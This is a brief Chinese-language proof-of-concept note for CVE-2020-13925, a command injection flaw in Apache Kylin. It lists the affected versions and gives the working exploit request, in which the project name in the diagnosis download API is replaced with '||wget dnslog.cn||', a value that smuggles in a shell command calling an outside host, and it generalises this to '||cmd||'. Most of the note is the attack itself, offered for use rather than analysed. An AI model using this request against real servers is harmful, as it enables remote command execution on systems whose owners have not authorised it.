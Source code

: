 # CVE-2020-13925 Apache Kylin 远程命令执行漏洞

影响版本：
- 2.3.0 - 2.3.2
- 2.4.0 - 2.4.1
- 2.5.0 - 2.5.2
- 2.6.0 - 2.6.4
- 3.0.0-alpha, 3.0.0-alpha2, 3.0.0-beta, 3.0.0

poc

```
登录后访问 System-Configuration-Diagnosis，触发下载诊断信息的请求
http://host:port/kylin/api/diag/project/learn_kylin/download

GET
http://host:port/kylin/api/diag/project/||wget dnslog.cn||/download

即将项目名称“learn_kylin”替换为||cmd||
```

[@bit4woo](https://github.com/bit4woo/CVE-2020-13925)